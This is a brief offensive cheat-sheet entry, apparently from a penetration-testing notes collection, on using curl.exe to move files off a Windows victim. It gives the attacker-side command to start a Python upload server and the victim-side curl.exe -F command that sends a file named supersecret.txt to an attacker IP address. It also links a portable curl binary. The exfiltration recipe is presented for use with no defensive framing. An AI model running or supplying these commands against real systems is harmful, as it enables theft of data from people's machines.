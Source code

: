 # Name
cURL

## Usage
```
# Windows Victim uploading file using CMD:
# double backslashes are impt
# Windows 10 and Server 2019 has curl.exe built-in at c:\windows\system32\curl.exe

# On Attacker:
# https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py
python3 SimpleHTTPServerWithUpload.py 80

# On Victim:
curl.exe -F 'file=@C:\\temp\\supersecret.txt' http://172.16.1.30
```

## Source
https://github.com/oss-dmg/curl-portable/raw/master/curl.exe
